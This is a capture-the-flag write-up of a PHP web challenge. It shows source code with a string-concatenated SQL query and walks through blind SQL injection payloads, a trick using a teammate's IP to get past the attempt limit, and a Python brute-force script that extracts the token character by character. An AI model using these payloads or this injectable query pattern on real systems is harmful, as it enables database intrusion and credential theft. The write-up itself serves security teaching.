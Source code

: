 # Beginner's Luck

Web, 989 points.

## Description

*Can you help me to win the flag ? I bet you can't ..*

We were given a website along with its sourcecode (PHP).

## Solution

The site greets us with a page in which we can click on a "Generate" button. Everytime we click on it, a random token is generated, and the
site says "Better luck next time!". We are given 10 attempts ; after those, the site says "Max Attempts Reached" and our session is reset.

![](luck1.png)

Taking a look at the source, here is what we can read.

```HTML
<form id="form" method="POST" action="" >
	
<input name="val" type="hidden" id="val">

</form>
<script type="text/javascript">

function generate_random_string(string_length){
    let random_string = '';
    let random_ascii;
    for(let i = 0; i < string_length; i++) {
        random_ascii = Math.floor((Math.random() * 25) + 97);
        random_string += String.fromCharCode(random_ascii)
    }
    return random_string
}

function generate()
{
    const input=document.getElementById("val");
    input.value=generate_random_string(100);
    document.getElementById("form").submit();
}
</script>
<div class="buttonHolder">
<input type="button" name="b1" value="Generate" onclick="generate()">
</div>
```

Every time we click on the button, our client generates the random 100-character token, and then sends it via POST. Our goal is to find the correct token.

Let's take a look at the source files we are given : [index.php](index.php), [play.php](play.php) and [reset.php](reset.php).

When we first connect to [index.php](index.php), our session is initialized and a random 100-character token is created for our session. We are not given the details of the generator function, though, but since they make our client generate random tokens on lowercase letters, we can infer the session token is the same. Right?

```php
if (!isset($_SESSION['count']))
{
	$_SESSION['count'] = 0;
	$pass = generateRandomToken(100);
	$ip = $_SERVER['REMOTE_ADDR'];
	$sql = "INSERT INTO users (ip, token) VALUES (?,?)";
	$stmt = $pdo->prepare($sql);
	$stmt->execute([$ip, $pass]);
}
```

A table `users` stores (ip, token) couples. Then in [play.php](play.php), when we send a token via POST :

```PHP
if (isset($_POST["val"]))
	{
	if ($_SESSION['count'] >= $max_count)
		{
		header("Location:reset.php");
		die();
		}

	$_SESSION['count']++;
	try
		{
		$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
		$result = $conn->query($sql);
		if ($result)
			{
			$row = $result->fetch_assoc();
			}
		  else
			{
			$row = false;
			}
		}

	catch(PDOException $e)
		{

		// echo $e;

		}

	if ($row)
		{
		echo "<h1>True</h1>";
		echo "<div><h4>Click <a href='flag.php'>here</a> and use the token to get your flag</h4></div>";
		}
	  else
		{
		echo "<h4>Better luck next time !</h4>";
		}

	$currentValue = $_POST['val'];
	}
```

An SQL query checks if there exists an entry for our (ip, token). If there is, we are invited to input our token in a page called flag.php (which is not present in the sources), so that we can claim our flag.

The following line is prone to a very obvious SQL injection.

```PHP
$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
```

We don't know the exact output of the SQL request, so we cannot run a "UNION" type of SQL injection, but we do know whether it returns something or not.
Indeed, when there exists such a couple (ip, token), the database returns at least a row and the site displays "True", "Click here and use the token to get your flag".
Otherwise, it displays "Better luck next time". We can use this information to run a blind SQL injection.

Let's check by sending a pretty basic injection first in `$_POST['val']` :

```
' OR '1'='1
```

The site returns "True". It worked! Let's try to run another injection :

```
' OR (ip='our ip' AND length(token)=100) AND '1'='1
```

It works too: the token is 100 characters long. Good. Now we're able to write a small script that will brute-force each character individually thanks to the SUBSTRING function of MySQL.

There's an issue, though. Our session is reset and destroyed after 10 requests. We can't find a 100-character token with only 10 binary requests...

Our solution was to use two different IPs with a teammate. One person would be running the injection, but looking for the token associated to the other person's IP. Making sure that other person kept their session alive, they could then submit the token without increasing the number of attempts at all.

Our payload looks like this :

```
' OR (ip='teammate IP' AND substring(token,[i],1)='[c]') AND '1'='1
```

Where i is between 1 and 100, and c in the lowercase letters charset. Except it was not the case. We ran the injection once and found many characters in the token that were actually not letters.
We then ran the injection again with lowercase letters + digits, and it worked. Those bastards had fooled us with that javascript generator! :D

Here is the exploit in Python.

```python
import requests

url = "https://web4.ctfsecurinets.com/play.php"

injection = "' OR (ip='teammate IP' AND substring(token,%s,1)='%s') AND '1'='1"
token = ''

for i in range(1, 101):
  for b in 'abcdefghijklmnopqrstuvwxyz':
    # Resetting the session and requesting a new one, just in case.
    # The exploit would have been faster by removing this.
    requests.get(url.replace('play', 'reset'))
    s = requests.session()
    s.get(url.replace('play', 'index'))
    c = s.post(url, data={'val': injection % (i, b)}).content
    if b'>True<' in c:
      token += b
      print(i, token)
      break
```

And we get our friend's token, for instance, `qx9tiuvxniog4qfkulftatkvysgiosw4qwppqcevks1f98hujnejxp6w8dvnvsjdfytw0xicha9h9g1it7simo4lrryea99gys2q`.

Input it in flag.php and get the flag. Enjoy!

Note: the exploit could have been much faster if we tested bits in the token instead of looping through a charset. Since there are 36 characters, which is approximately 5 bits, we could have been able to retrieve a character using only 6 requests instead of 36 worst case scenario. The payload would have been more complicated though, running some conversions and stuff.

